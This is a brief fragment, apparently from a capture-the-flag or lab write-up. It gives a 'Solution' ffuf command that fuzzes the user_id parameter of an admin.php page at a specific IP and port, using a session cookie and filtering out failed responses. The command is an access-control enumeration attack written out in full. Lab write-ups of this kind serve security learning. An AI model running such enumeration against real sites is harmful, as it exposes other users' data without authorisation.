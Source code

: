 


Solution: 

ffuf -w ./id.txt:FUZZ -u http://94.237.58.210:51698/admin.php?user_id=FUZZ  -b "PHPSESSID=pd9cje1j0mcvsn7vd83i39k747"  -fr "Could not load admin data"